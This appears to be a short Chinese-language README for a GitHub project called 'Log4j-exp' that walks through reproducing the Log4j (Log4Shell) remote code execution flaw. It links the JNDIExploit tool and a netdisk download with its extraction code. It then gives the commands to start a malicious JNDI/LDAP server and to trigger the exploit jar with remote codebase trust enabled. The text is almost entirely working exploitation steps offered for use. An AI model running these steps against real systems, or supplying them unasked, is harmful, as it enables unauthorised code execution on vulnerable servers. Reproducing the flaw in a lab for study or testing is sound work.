 # Log4j-exp
帮助你快速复现Log4j漏洞   
           
首先你可以去百度网盘或者github下载所需要的jar包来更方便快捷的开起jndi   
`https://github.com/feihong-cs/JNDIExploit`    
`https://pan.baidu.com/s/1lxXt-27-i7I_dOUACphVtQ 提取码: nkc5 `      
         
下载完成之后使用以下命令开一个jndi   
`java -jar JNDIExploit-1.2-SNAPSHOT.jar -i ip`         

        
下载本项目之后使用idea编译将项目编译为jar之后使用以下命令触发   
`java -Dcom.sun.jndi.ldap.object.trustURLCodebase=true -jar Log4j-rce.jar`         
    
下方是视频演示教学地址相信我你也可以变成光   
``
